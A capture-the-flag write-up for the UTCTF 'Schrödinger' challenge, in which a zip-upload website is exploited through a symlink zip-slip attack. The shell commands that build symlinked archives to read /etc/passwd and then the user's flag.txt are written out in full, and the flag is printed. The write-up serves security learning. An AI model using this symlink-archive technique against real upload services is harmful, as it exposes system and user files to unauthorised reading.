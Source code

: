 # Schrödinger

> Hey, my digital cat managed to get into my server and I can't get him out.
> 
> The only thing running on the server is a website a colleague of mine made.
> 
> Can you find a way to use the website to check if my cat's okay? He'll likely be in the user's home directory.
> 
> You'll know he's fine if you find a "flag.txt" file.
> 
> By helix (@helix_shift on discord)
> 
> http://betta.utctf.live:5422

Solution:

No source file(s) were given...visiting the link gives us a simple webpage with an upload functionality.

![image](1.png)

![image](2.png)

Based on the response headers, this is running using `Werkzeug/3.0.1 Python/3.10.12`

So I searched for `python zip rce ctf` which shows several results about `Zip Slip`

![image](3.png)

One good writeup can be seen at https://infosecwriteups.com/zippy-challenge-writeup-cyberhack-ctf-80eb1d422249

I tried using `../flag.txt`...

```
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ ln -s ../flag.txt exploit
                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ zip --symlinks exploit.zip exploit       
  adding: exploit (stored 0%)
```

But it only said "Something went wrong" after uploading. Also tried going in depth but got the same error.

So I decided to check the `/etc/passwd` as it contains the home directory

```
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ ln -s ../../../../../../etc/passwd grabETCpasswd        
                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ zip --symlinks grabETCpasswd.zip grabETCpasswd
  adding: grabETCpasswd (stored 0%)
```

![image](4.png)

Oh, that worked! It seems our target directory is `/home/copenhagen`, let's use that

```
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ ln -s ../../../../../../home/copenhagen/flag.txt getFlag
                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Schrodinger]
└─$ zip --symlinks getFlag.zip getFlag          
  adding: getFlag (stored 0%)
```

![image](5.png)

There we go!

Flag: `utflag{No_Observable_Cats_Were_Harmed}`